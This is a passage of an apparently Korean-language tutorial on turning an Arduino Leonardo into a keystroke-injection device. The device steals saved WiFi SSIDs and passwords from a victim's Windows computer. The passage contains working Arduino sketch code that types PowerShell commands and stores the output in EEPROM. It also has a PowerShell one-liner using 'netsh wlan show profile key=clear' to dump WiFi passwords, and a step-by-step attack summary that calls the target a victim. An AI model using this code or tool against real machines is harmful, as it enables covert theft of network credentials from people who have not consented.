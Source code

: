 ```js
    Keyboard.println(", 9600, None, 8, one");
    delay(200);
    Keyboard.println("$serialObject.Open()");
    delay(200);
    Keyboard.println("$serialObject.Write(\"$dataCaptured\")");
    delay(200);
    Keyboard.println("$serialObject.close()");
    delay(200);
    Keyboard.println("exit");
    delay(200);
    for(int i=0; i<sizeof(stringArray)-1; i++)
        stringArray[i] = Serial.read();
    EEPROM.put(1, stringArray);
}

void dispatchingData() {
    delay(500);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.println("notepad");
    delay(700);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.print(EEPROM.get(1, stringArray));
}
```

# 공격 요약

- 먼저 Arduino Leonardo를 트롤하는 컴퓨터에 USB 포트를 통해 연결합니다. 앞서 언급한 두 개의 버튼을 기억하시나요? 왼쪽 버튼을 누르면 프로그램이 PowerShell 터미널을 시작하고 명령을 입력하기 시작합니다.
- 프로그램은 WiFi의 SSID와 비밀번호를 추출하여 Arduino의 전기적으로 지워지지 않는 프로그램 가능 읽기 전용 메모리(EEPROM)에 저장합니다. 비휘발성 플래시 메모리 장치이므로 저장된 정보는 더 이상 전원이 공급되지 않아도 유지됩니다.
- Arduino가 기능을 실행한 후에는 피해자 컴퓨터에서 이를 분리하고 제 컴퓨터에 연결합니다. 이번에는 EEPROM에 저장된 데이터를 Arduino가 내 컴퓨터로 덤프하는 오른쪽 버튼을 누릅니다.

<div class="content-ad"></div>

# WiFi SSID 표시 명령어

```js
(netsh wlan show profiles) |
Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} |
%{(netsh wlan show profile name="$name" key=clear)} |
Select-String "Key Content\W+\:(.+)$" |
%{$pass=$_.Matches.Groups[1].Value.Trim(); $_} |
%{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } |
Format-Table –AutoSize |
Out-String -OutVariable dataCaptured
```
